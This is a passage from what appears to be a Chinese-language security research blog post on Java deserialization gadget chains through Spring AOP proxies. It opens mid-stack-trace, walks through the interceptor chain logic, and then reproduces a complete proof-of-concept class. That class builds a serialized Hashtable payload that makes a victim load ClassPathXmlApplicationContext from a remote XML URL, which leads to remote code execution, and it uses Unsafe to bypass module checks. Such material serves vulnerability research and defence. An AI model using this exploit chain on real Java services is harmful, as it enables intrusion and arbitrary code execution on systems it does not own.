	at java.desktop/javax.swing.event.EventListenerList.add(EventListenerList.java:213)
	at java.desktop/javax.swing.event.EventListenerList.readObject(EventListenerList.java:309)
	at java.base/jdk.internal.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at java.base/jdk.internal.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:77)
	at java.base/jdk.internal.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.base/java.lang.reflect.Method.invoke(Method.java:568)
	at java.base/java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1104)
	at java.base/java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2434)
	at java.base/java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2268)
	at java.base/java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1744)
	at java.base/java.io.ObjectInputStream.readObject(ObjectInputStream.java:514)
	at java.base/java.io.ObjectInputStream.readObject(ObjectInputStream.java:472)
	at org.example.Main.main(Main.java:91)
```
## 思考
上述可能会有点乱，我们走一遍  
JdkDynamicAopProxy：在调用目标对象Target的方法之前，会检查这个方法是否有配置拦截链  
然后是为了走到chains不为空  
从配置获取Advisior（包含有advice和决定advice作用位置匹配的过滤器），有多少个Advisor拦截链interceptorList长度就有多少
接着判断是作用到PointCut的advice还是作用到Introduction的advice，但最终都是通过registry.getInterceptors(advisor)获取Interceptor合并到interceptorList中，registry为DefaultAdvisorAdapterRegistry  
这里我们的目的是调用拦截器advice的invoke方法  
实际我好像直接不用advised只是直接add我们的advice，最后也可以走到命令执行  
  
也就是说
```java
advisedSupport.addAdvice(advice);
```
但是链子不是很稳定，在这里就执行了
`List<Object> chain = this.advised.getInterceptorsAndDynamicInterceptionAdvice(method, targetClass);`  
 - https://xz.aliyun.com/news/17640
这篇文章说再加个拦截器，我没太懂是为什么  
下面这篇文章也不是很懂，感觉双代理没有必要
 - https://gsbp0.github.io/post/springaop/#poc
## Gadget2：有参数调用
 - [很值得一学的链子](https://jiecub3.github.io/zh/posts/java/chain/%E9%AB%98%E7%89%88%E6%9C%ACjdk-spring-aop%E9%93%BE%E5%AD%90/#0x02-poc%e6%9e%84%e9%80%a0)
我们之前直接选择了`AspectJAroundAdvice`，=>`invokeAdviceMethod`，这里参数经过`argBinding()`，关注returnValue值，找子类看他们的与之关联的方法，我们发现`AspectJAfterReturningAdvice`  
这里的话我们要好好看看`ReflectiveMethodInvocation`类的构造了  
`new ReflectiveMethodInvocation(proxy, target, method, args, targetClass, chain);`  
这里target可控  
```java
TargetSource targetSource = this.advised.targetSource;
...
target = targetSource.getTarget();
```
method就是对代理调用的方法，args就是参数，其他就不用说了  
我们看下AspectJAfterReturningAdvice  
```java
    public void afterReturning(@Nullable Object returnValue, Method method, Object[] args, @Nullable Object target) throws Throwable {
        if (this.shouldInvokeOnReturnValueOf(method, returnValue)) {
            this.invokeAdviceMethod(this.getJoinPointMatch(), returnValue, (Throwable)null);
        }
```
找到调用这个方法的地方，有  

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package org.springframework.aop.framework.adapter;

import java.io.Serializable;
import org.aopalliance.intercept.MethodInterceptor;
import org.aopalliance.intercept.MethodInvocation;
import org.springframework.aop.AfterAdvice;
import org.springframework.aop.AfterReturningAdvice;
import org.springframework.lang.Nullable;
import org.springframework.util.Assert;

public class AfterReturningAdviceInterceptor implements MethodInterceptor, AfterAdvice, Serializable {
    private final AfterReturningAdvice advice;

    public AfterReturningAdviceInterceptor(AfterReturningAdvice advice) {
        super();
        Assert.notNull(advice, "Advice must not be null");
        this.advice = advice;
    }

    @Nullable
    public Object invoke(MethodInvocation mi) throws Throwable {
        Object retVal = mi.proceed();
        this.advice.afterReturning(retVal, mi.getMethod(), mi.getArguments(), mi.getThis());
        return retVal;
    }
}
```
作为最后一条链子的话，进入proceed()，会进入  
```java
if (this.currentInterceptorIndex == this.interceptorsAndDynamicMethodMatchers.size() - 1) {
            return this.invokeJoinpoint();
        }

...
...

invokeJoinpoint()=>invokeJoinpointUsingReflection()
try {
            ReflectionUtils.makeAccessible(method);
            return method.invoke(target, args);
        }

```
这里还需要控制对代理调用的方法，如何才可以控制返回值呢？  

通过上述方法，控制了参数，我们再看看  
如果只用一个advice这里会出问题()没有ExposeInvocationInterceptor  
```java
Exception in thread "main" java.lang.IllegalStateException: No MethodInvocation found: Check that an AOP invocation is in progress and that the ExposeInvocationInterceptor is upfront in the interceptor chain. Specifically, note that advices with order HIGHEST_PRECEDENCE will execute before ExposeInvocationInterceptor! In addition, ExposeInvocationInterceptor and ExposeInvocationInterceptor.

```
这个时候我们只需要像之前那样，加个ExposeInvocationInterceptor拦截器就行  
至于其他的例如某些值的设定，以及source如何去触发，以及一些最后的sink点，可以移步那一篇文章即可，这里抄个POC
```java
import com.fasterxml.jackson.databind.introspect.AnnotatedConstructor;
import com.fasterxml.jackson.databind.introspect.AnnotationMap;
import com.fasterxml.jackson.databind.introspect.TypeResolutionContext;
import com.fasterxml.jackson.databind.type.TypeFactory;
import org.springframework.aop.aspectj.AspectJAfterReturningAdvice;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.aspectj.AspectJExpressionPointcut;
import org.springframework.aop.aspectj.SingletonAspectInstanceFactory;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.framework.adapter.AfterReturningAdviceInterceptor;
import org.springframework.aop.interceptor.ExposeInvocationInterceptor;
import org.springframework.aop.target.HotSwappableTargetSource;
import org.springframework.context.support.ClassPathXmlApplicationContext;
import sun.misc.Unsafe;


import javax.swing.text.DefaultFormatter;
import java.io.*;
import java.lang.reflect.*;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class Mytest2 {
    public static void main(String[] args) throws Exception {

        Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> cons = clazz.getDeclaredConstructor(AdvisedSupport.class);
        cons.setAccessible(true);

        AdvisedSupport advisedSupport = new AdvisedSupport();
        HashMap<String, String> targetMap = new HashMap<>();
        targetMap.put("argss", "http://127.0.0.1:8888/poc.xml");
        advisedSupport.setTarget(targetMap);


        Class<?> aClass = Class.forName("org.springframework.aop.interceptor.ExposeInvocationInterceptor");
        Constructor<?> declaredConstructor = aClass.getDeclaredConstructor();
        declaredConstructor.setAccessible(true);
        ExposeInvocationInterceptor aspectJAroundAdvice0 = (ExposeInvocationInterceptor) declaredConstructor.newInstance();
//        AspectJExpressionPointcut pointcut = new AspectJExpressionPointcut();
//        pointcut.setExpression(".*get");
        advisedSupport.addAdvice(aspectJAroundAdvice0);

        AspectJAfterReturningAdvice aspectJAfterReturningAdvice = getAspectJAfterReturningAdvice();
        AfterReturningAdviceInterceptor aspectJAroundAdvice = new AfterReturningAdviceInterceptor(aspectJAfterReturningAdvice);

        setFieldValue(aspectJAfterReturningAdvice,"argumentNames",new String[]{"java.lang.Object"});
        setFieldValue(aspectJAfterReturningAdvice,"returningName","java.lang.Object");
//        setFieldValue(aspectJAfterReturningAdvice,"argumentNames",new String[]{"java.lang.Object"});
//        setFieldValue(aspectJAfterReturningAdvice,"throwingName","java.lang.Object");
//        setFieldValue(aspectJAfterReturningAdvice,"joinPointArgumentIndex",-1);
//        setFieldValue(aspectJAfterReturningAdvice,"joinPointStaticPartArgumentIndex",-1);
        setFieldValue(aspectJAfterReturningAdvice,"discoveredReturningType",String.class);


        advisedSupport.addAdvice(aspectJAroundAdvice);

        InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);
        Map proxyObj = (Map) Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Map.class}, handler);

        Hashtable htobject = new Hashtable();
        htobject.put("argss","test");
        HotSwappableTargetSource htkey = new HotSwappableTargetSource(htobject);
        HotSwappableTargetSource htvalue = new HotSwappableTargetSource(proxyObj);

        Hashtable hashtable = new Hashtable();
        hashtable.put(htkey, "b");
        Method addEntry = hashtable.getClass().getDeclaredMethod("addEntry", int.class, Object.class, Object.class, int.class);
        patchModule(Mytest2.class,hashtable.getClass());
        addEntry.setAccessible(true);
        addEntry.invoke(hashtable, 0, htvalue, "2B", 0);

        FileOutputStream fos = new FileOutputStream("bin");
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(hashtable);
        oos.close();

        // 从文件中反序列化对象
        FileInputStream fis = new FileInputStream("bin");
        ObjectInputStream ois = new ObjectInputStream(fis);
        ois.readObject();
        ois.close();

    }
    private static void patchModule(Class clazz,Class goalclass){
        try {
            Class UnsafeClass = Class.forName("sun.misc.Unsafe");
            Field unsafeField = UnsafeClass.getDeclaredField("theUnsafe");
            unsafeField.setAccessible(true);
            Unsafe unsafe = (Unsafe)unsafeField.get(null);
            Object ObjectModule = Class.class.getMethod("getModule").invoke(goalclass);
            Class currentClass = clazz;
            long addr=unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.getAndSetObject(currentClass,addr,ObjectModule);
        } catch (Exception e) {
        }
    }


    private static AspectJAfterReturningAdvice getAspectJAfterReturningAdvice() throws Exception {
//        Method mapGetMethod = Map.class.getMethod("get", Object.class);
//        AspectJExpressionPointcut pointcut = new AspectJExpressionPointcut();
////        pointcut.setExpression(".*get");  // 匹配 Map.get()
//        Map<String, String> targetMap = new HashMap<>();
//        SingletonAspectInstanceFactory aif = new SingletonAspectInstanceFactory(targetMap);
//        AspectJAfterReturningAdvice advice = new AspectJAfterReturningAdvice(
//                mapGetMethod, pointcut, aif
//        );
//        return advice;

        DefaultFormatter defaultFormatter = new DefaultFormatter();
        defaultFormatter.setValueClass(ClassPathXmlApplicationContext.class);

        Method mapGetMethod = DefaultFormatter.class.getMethod("stringToValue", String.class);
        AspectJExpressionPointcut pointcut = new AspectJExpressionPointcut();
        pointcut.setExpression("");
        SingletonAspectInstanceFactory aif = new SingletonAspectInstanceFactory(defaultFormatter);
        AspectJAfterReturningAdvice advice = new AspectJAfterReturningAdvice(
                mapGetMethod, pointcut, aif
        );
        return advice;

//        Constructor<ClassPathXmlApplicationContext> declaredConstructor = ClassPathXmlApplicationContext.class.getDeclaredConstructor(String.class);
//        Object o = newInstanceWithoutConstructor(TypeFactory.class);
//        TypeResolutionContext ctxt = new TypeResolutionContext.Empty((TypeFactory) o);
//
//        // 3. 创建 AnnotationMap（存储注解信息，这里用空的）
//        AnnotationMap classAnn = new AnnotationMap();
//        AnnotationMap[] paramAnn = new AnnotationMap[0]; // 无参数时用空数组
//
//        // 4. 初始化 AnnotatedConstructor 对象
//        AnnotatedConstructor annotatedConstructor = new AnnotatedConstructor(
//                ctxt, declaredConstructor, classAnn, paramAnn
//        );
//        Method mapGetMethod = annotatedConstructor.getClass().getMethod("call1", Object.class);
//        AspectJExpressionPointcut pointcut = new AspectJExpressionPointcut();
//        pointcut.setExpression("");
//        SingletonAspectInstanceFactory aif = new SingletonAspectInstanceFactory(annotatedConstructor);
//        AspectJAfterReturningAdvice advice = new AspectJAfterReturningAdvice(
//                mapGetMethod, pointcut, aif
//        );
//        return advice;

    }

    public static void setFieldValue(Object obj,String filedName,Object value) throws NoSuchFieldException, IllegalAccessException {
        Field field = getField(obj.getClass(),filedName);
        field.setAccessible(true);
        field.set(obj,value);
    }

    public static Field getField(Class clazz,String fieldName) throws NoSuchFieldException {

        while (true){
            Field[] fields = clazz.getDeclaredFields();
            for(Field field:fields){
                if(field.getName().equals(fieldName)){
                    return field;
                }
            }
            if(clazz == Object.class){
                break;
            }
            clazz = clazz.getSuperclass();
        }
        throw new NoSuchFieldException(fieldName);
    }
}
```


